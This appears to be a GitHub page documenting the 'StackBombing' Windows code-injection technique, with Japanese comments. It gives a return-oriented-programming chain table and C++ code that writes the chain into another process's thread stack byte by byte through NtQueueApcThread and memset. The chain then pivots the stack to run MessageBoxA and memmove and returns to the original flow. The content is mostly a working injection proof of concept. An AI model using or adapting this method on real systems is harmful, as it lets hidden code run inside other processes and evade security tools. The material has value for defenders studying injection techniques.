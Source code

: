 # StackBombing

## New stack

| No. |   |   |
|--:|:--|:--|
| 0 | | ret |
| 1 | SetRcx | pop rcx; ret |
| 2 | | 0x00(value) |
| 3 | SetRdx | pop rdx; ret |
| 4 | | 0x00(value) |
| 5 | SetR8 | pop r8; ret |
| 6 | | 0x00(value) |
| 7 | SetR9 | pop rax; ret |
| 8 | | 0x00(value) |
| 9 | | movsxd r9, eax; mov rax, r9; add rsp, 0x28; ret |
| 10 | | 0x00 |
| 11 | | 0x00 |
| 12 | | 0x00 |
| 13 | | 0x00 |
| 14 | | 0x00 |
| 15 | SetApi | MessageBoxA_Address |
| 16 | | add rsp, 0x28; ret |
| 17 | | 0x00 |
| 18 | | 0x00 |
| 19 | | 0x00 |
| 20 | | 0x00 |
| 21 | | 0x00 |
| 22 | SetRcx | pop rcx; ret |
| 23 | | context.Rsp(value) |
| 24 | | gadget_poprdx Address |
| 25 | | context.Rsp - 0x2000 + sizeof(DWORD64) * rop_pos |
| 26 | SetR8 | pop r8; ret |
| 27 | | 0x08(value) |
| 28 | SetR9 | pop rax; ret |
| 29 | | 0x00(value) |
| 30 | | movsxd r9, eax; mov rax, r9; add rsp, 0x28; ret |
| 31 | | 0x00 |
| 32 | | 0x00 |
| 33 | | 0x00 |
| 34 | | 0x00 |
| 35 | | 0x00 |
| 36 | SetApi | memmove_Address |
| 37 | | add rsp, 0x28; ret |
| 38 | | 0x00 |
| 39 | | 0x00 |
| 40 | | 0x00 |
| 41 | | 0x00 |
| 42 | | 0x00 |
| 43 | | pop rsp; ret |
| 44 | | context.Rsp(value) |
| 45 | | 0x00 |

```cpp
MessageBoxA(0, 0, 0, 0);

// dst, src, size
memmove(context.Rsp, context.Rsp - 0x2000 + sizeof(DWORD64) * rop_pos, 0x8);
```

## Write target process

```cpp
// 新しいスタックを書き込む
for (int i = 0; i < rop_pos * sizeof(DWORD64); ++i)
    NtQueueApcThread(h_thread, memset_address, (void*)(tos + i), (void*)*(((BYTE*)rop_chain) + i), 1);

// context.Rsp - 0x2000 + sizeof(DWORD64) * rop_posにcontext.Rspを書き込む  // 45に書き込む  // returnで戻るアドレス
NtQueueApcThread(h_thread, memmove_address, (void*)(rop_chain[saved_return_address]), (void*)orig_tos, 8);

// context.Rspにpop rsp; retのアドレスを書き込む
for (int i = 0; i < sizeof(tos); i++)
	NtQueueApcThread(h_thread, memset_address, (void*)(orig_tos + i), (void*)(((BYTE*)&gadget_pivot)[i]), 1);

// context.Rsp + 8 + iに新しいスタックの先頭アドレスを書き込む  // pop rspでこれがrspに書き込まれる  // retは新しいスタックの先頭になる
for (int i = 0; i < sizeof(tos); i++)
	NtQueueApcThread(h_thread, memset_address, (void*)(orig_tos + 8 + i), (void*)(((BYTE*)&tos)[i]), 1);
```
